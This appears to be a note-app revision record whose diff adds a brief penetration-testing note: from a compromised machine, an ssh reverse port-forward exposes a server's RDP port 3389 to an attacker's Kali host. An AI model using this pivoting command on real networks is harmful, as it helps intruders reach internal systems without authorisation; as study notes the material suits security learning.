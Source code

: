 id: 304bdb3a90d64afcb623eb4eeaaa904b
parent_id: fa8fb775066745dd97ff8d4ac066b49c
item_type: 1
item_id: f4e24f7f077241bf8f7fbf2e7f84108a
item_updated_time: 1658203003944
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"rwarding\"],[1,\"\\\n\\\n![52f451017c2f46bc518b1a8d355d32db.png](:/13b528c21fd14d718a3f95cadc0c1663)\\\n\\\nPC-1 is compromised, and has access to port 3389 on server.\\\n\\\nSet local port 3389 to connect to the server port\\\n\\\n> ssh tunneluser@$KALIIP -R 3389:$SERVERIP:3389 -N\"]],\"start1\":219,\"start2\":219,\"length1\":8,\"length2\":249}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-19T03:57:16.041Z
created_time: 2022-07-19T03:57:16.041Z
type_: 13